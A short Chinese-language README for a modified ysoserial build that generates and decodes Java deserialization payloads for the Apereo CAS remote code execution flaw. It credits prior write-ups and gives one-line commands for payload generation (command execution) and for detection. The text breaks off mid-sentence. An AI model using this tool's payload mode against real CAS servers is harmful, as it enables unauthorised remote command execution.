



## ApereoCas反序列化回显与检测
### 0x01 前言
工具源码来源于
```
https://github.com/frohoff/ysoserial
```
改造思路来源于
```
https://www.00theway.org/2020/01/04/apereo-cas-rce/
https://www.anquanke.com/post/id/198842
https://www.freebuf.com/vuls/226149.html
```

### 0x02 使用方法

命令执行：

```
java -jar ysoserial-managguogan-0.0.1-SNAPSHOT-all.jar encode CommonsCollections4
```


CommonsCollections4 这个payload可以自行修改，选项可参考ysoserial的用法

检测：

```
java -jar ysoserial-managguogan-0.0.1-SNAPSHOT-all.jar decode base64string 1.txt
```
base64string应该注意把前面的杂乱数据去掉，比如


1.txt是把序列化数据存入到1.txt文件中


